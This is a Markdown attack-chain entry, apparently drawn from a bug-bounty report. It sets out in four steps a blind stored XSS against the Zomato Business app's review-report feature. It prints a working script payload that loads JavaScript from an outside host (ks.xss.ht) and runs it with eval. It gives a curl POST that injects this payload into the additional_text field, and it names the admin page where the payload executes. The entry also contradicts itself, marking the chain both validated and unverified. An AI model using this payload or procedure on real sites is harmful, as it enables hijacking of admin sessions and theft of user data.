

---
tags:
  - xss
  - stored-xss
  - blind-xss
  - web-vulnerability
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
  - Mobile App
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Prepare-XSS-Payload-for-Review-Report]]'
  - '[[procedures/Send-Report-Request-with-XSS-Payload]]'
  - '[[procedures/Access-Admin-Review-Page]]'
  - '[[procedures/Observe-and-Verify-XSS-Execution]]'
step_count: 4
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-14T17:30:07.338Z'
description: >-
  A multi-step attack exploiting a blind stored XSS vulnerability in the Zomato
  Business app's review reporting feature to inject and execute JavaScript in
  the admin panel context, potentially leading to data theft.
skill_level: intermediate
impact_level: high
id: 5b8c967a-42ac-4817-b177-01a7524200fe
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Blind Stored XSS in Zomato Review Reporting for Admin Panel JavaScript Execution

Multi-stage attack chain demonstrating a complete workflow for exploiting a blind stored XSS vulnerability in the Zomato Business app's review reporting feature. The attack involves injecting a payload into the additional text field of a report, which is then unsafely rendered as HTML on the admin panel, allowing arbitrary JavaScript execution in the admin's browser context. This can lead to theft of private user information via AJAX requests.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Zomato Business mobile app or web interface
- Valid access token for authenticated requests
- Target review ID (e.g., a reportable review)

### Initial Access Requirements

- Authenticated user account in Zomato Business app
- Network access to Zomato APIs (e.g., /v2/merchant endpoints)
- Admin panel access simulation (for observation, typically requires reporting to trigger admin view)

## Detailed Attack Procedures

### Step 1: Prepare XSS Payload for Review Report
procedure: [[procedures/Prepare-XSS-Payload-for-Review-Report]]

**Objective**: Craft an XSS payload that bypasses CSP using XMLHttpRequest to load and evaluate external JavaScript, targeting the additional_text field.

**Instructions**: Define the payload as a script that creates an XMLHttpRequest to fetch and eval JavaScript from an external domain like //ks.xss.ht. Use [[commands/construct-xss-payload]] to build it:

```bash
# Payload construction (manual or scripted)
echo '<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//ks.xss.ht");a.send();</script>'
```

Prepare Burp Suite to intercept the request, replacing headers like X-Access-Token with a valid one and setting review_id to a target ID (e.g., 32288944).

**Expected Output**: Valid XSS payload string ready for injection.

**Success Indicators**:
- Payload syntax verified (no errors in script)
- External domain (ks.xss.ht) accessible

### Step 2: Send Report Request with XSS Payload
procedure: [[procedures/Send-Report-Request-with-XSS-Payload]]

**Objective**: Submit a POST request to the report endpoint, injecting the XSS payload into the additional_text parameter to store it blindly.

**Instructions**: Use Burp Suite to send the POST request to /v2/merchant. Include parameters: reason_id=5, review_id=32288944, additional_text with the payload. Execute [[commands/post-review-report-xss]]:

```bash
# Simulated via curl or Burp; actual via Burp Repeater
curl -X POST 'https://www.zomato.com/api/v2/merchant' \
  -H 'X-Access-Token: YOUR_VALID_TOKEN' \
  -d 'reason_id=5&review_id=32288944&additional_text=<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//ks.xss.ht");a.send();</script>'
```

**Expected Output**: HTTP 200 or success response indicating report submission.

**Success Indicators**:
- Report accepted without errors
- No immediate payload execution (blind nature)

### Step 3: Access Admin Review Page
procedure: [[procedures/Access-Admin-Review-Page]]

**Objective**: Simulate or trigger admin access to the review page where the stored payload will be rendered.

**Instructions**: Navigate to the admin endpoint https://www.zomato.com/admin/reviews_new?review_id=32288944 (replace with actual reported ID). In a real scenario, this would be viewed by Zomato admins upon report processing.

No specific command needed; use browser or Burp to access:

```bash
# Browser access or curl for verification
curl 'https://www.zomato.com/admin/reviews_new?review_id=32288944'
```

**Expected Output**: Page loads with review details, including the additional_text field rendered as HTML.

**Success Indicators**:
- Page accessible (admin privileges simulated)
- Report details visible in HTML source

### Step 4: Observe and Verify XSS Execution
procedure: [[procedures/Observe-and-Verify-XSS-Execution]]

**Objective**: Confirm the payload executes, fetching and evaluating external JS to bypass CSP and enable data exfiltration.

**Instructions**: Monitor the admin page load. The script should trigger an XMLHttpRequest to //ks.xss.ht. Use browser dev tools or Burp to observe network requests. Verify with [[commands/monitor-xss-execution]]:

```bash
# Use browser console or proxy logs to check for XHR to ks.xss.ht
# Expected: Network tab shows GET to //ks.xss.ht with eval execution
```

**Expected Output**: JavaScript executes, potentially sending AJAX requests in admin context for data theft.

**Success Indicators**:
- External JS loaded and evaluated
- No CSP block (due to unsafe-inline allowance)
- Potential alert or callback from external script

## Attack Chain Summary

### Key Achievements

1. Successful blind injection of XSS payload via review report
2. Rendering of unsanitized HTML on admin panel
3. CSP bypass using XMLHttpRequest for external JS execution
4. Potential access to private admin session data

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
